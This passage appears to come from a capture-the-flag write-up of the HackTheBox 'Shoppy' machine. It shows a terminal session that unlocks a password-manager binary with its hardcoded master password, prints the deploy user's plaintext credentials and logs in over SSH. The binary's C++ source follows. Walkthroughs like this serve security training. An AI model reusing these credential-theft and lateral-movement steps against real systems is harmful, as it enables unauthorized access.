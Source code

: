 ![Image alt](/images/Pasted-image-20221217021815.png)

- Credentiales:

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ exit

goku@exploitation:~$ ssh deploy@10.10.11.180
deploy@10.10.11.180\'s password:
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Dec 16 19:23:22 2022 from 10.10.14.2
$ ls
creds.txt  password-manager  password-manager.cpp
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)

$ bash

deploy@shoppy:~$

```

- The `password-manager` source code:

```cpp
// password-manager.cpp

#include <iostream>
#include <string>

int main() {
    std::cout << "Welcome to Josh password manager!" << std::endl;
    std::cout << "Please enter your master password: ";
    std::string password;
    std::cin >> password;
    std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
    if (password.compare(master_password) == 0) {
        std::cout << "Access granted! Here is creds !" << std::endl;
        system("cat /home/deploy/creds.txt");
        return 0;
    } else {
        std::cout << "Access denied! This incident will be reported !" << std::endl;
        return 1;
    }
}
```